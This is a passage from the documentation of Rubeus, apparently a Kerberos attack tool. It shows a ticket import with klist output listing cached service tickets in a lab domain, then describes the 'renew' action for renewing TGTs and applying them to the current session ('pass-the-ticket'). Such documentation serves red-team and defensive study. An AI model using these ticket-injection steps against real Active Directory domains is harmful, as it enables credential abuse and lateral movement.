           doIFSjCCBUagAwIBBaEDAgE...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!


    C:\Temp\tickets>C:\Windows\System32\klist.exe tickets

    Current LogonId is 0:0x570ba

    Cached Tickets: (2)

    #0>     Client: harmj0y @ TESTLAB.LOCAL
            Server: cifs/primary.testlab.local @ TESTLAB.LOCAL
            KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
            Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
            Start Time: 9/30/2018 18:17:55 (local)
            End Time:   9/30/2018 23:17:01 (local)
            Renew Time: 10/7/2018 18:17:01 (local)
            Session Key Type: AES-128-CTS-HMAC-SHA1-96
            Cache Flags: 0
            Kdc Called:

    #1>     Client: harmj0y @ TESTLAB.LOCAL
            Server: LDAP/primary.testlab.local @ TESTLAB.LOCAL
            KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
            Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
            Start Time: 9/30/2018 18:17:55 (local)
            End Time:   9/30/2018 23:17:01 (local)
            Renew Time: 10/7/2018 18:17:01 (local)
            Session Key Type: AES-128-CTS-HMAC-SHA1-96
            Cache Flags: 0
            Kdc Called:


## renew

The **renew** action will build/parse a raw TGS-REQ/TGS-REP TGT renewal exchange using the specified /ticket:X supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a /dc is not specified, the computer's current domain controller is extracted and used as the destination for the renewal traffic. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session.

Note that TGTs MUST be renewed before their EndTime, within the RenewTill window.

    c:\Rubeus>Rubeus.exe renew /ticket:doIFmjCC...(snip)...

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
